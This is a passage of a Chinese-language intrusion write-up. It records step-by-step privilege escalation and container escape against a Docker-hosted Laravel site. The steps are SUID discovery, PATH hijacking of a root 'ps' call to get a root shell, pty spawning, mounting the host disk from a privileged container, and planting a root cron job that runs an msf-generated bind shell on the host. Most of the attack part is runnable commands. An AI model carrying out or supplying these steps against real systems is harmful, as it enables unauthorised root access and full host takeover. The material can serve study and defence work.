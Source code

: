 准备看看能不能docker逃逸，但逃逸之前得先把权限提到root

使用提权脚本检查一下，[http://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh](http://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh),连续尝试了好几个都失败。

`./linux-exploit-suggester.sh`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_18-38-23.png)

使用suid提权，搜索设置了suid位的文件,发现jobs目录下有个shell文件

`find / -perm -u=s -type f 2>/dev/null`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_20-31-37.png)

发现这个shell文件实则是运行了ps命令，可通过修改环境变量，让其执行我们恶意的ps文件来拿到root权限

```
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
export PATH=/tmp:$PATH
```

回到jobs目录，执行shell文件，获得root权限

`./shell`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_20-44-51.png)

python伪终端

`python -c 'import pty;pty.spawn("/bin/bash")'`

随后使用CDK进行docker逃逸，试了几个逃逸漏洞都没圆满逃逸成功，工具地址:[CDK](http://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

随后使用docker特权模式逃逸成功

先在容器内新建一个test目录，然后将宿主机的磁盘挂载到容器的test目录

`mkdir /test`

`mount /dev/sda1 /test

使用msf生成linux的正向shell的可执行程序，通过docker上传到宿主机，并通过写入计划任务让宿主机执行我们的恶意程序。

这里遇到一个坑，写入计划后就是不执行，将其权限设置为600才执行成功

`echo '* * * * * cd /home/ubuntu && ./bind_4455.elf' >> /test/var/spool/cron/crontabs/root`

`chmod 600 root`

![](http://qn.laohuan.xin/Snipaste_2022-02-03_11-48-16.png)

成功拿下Laravel站点

![](http://qn.laohuan.xin/Snipaste_2022-02-03_11-58-25.png)

#### 3.通达OA
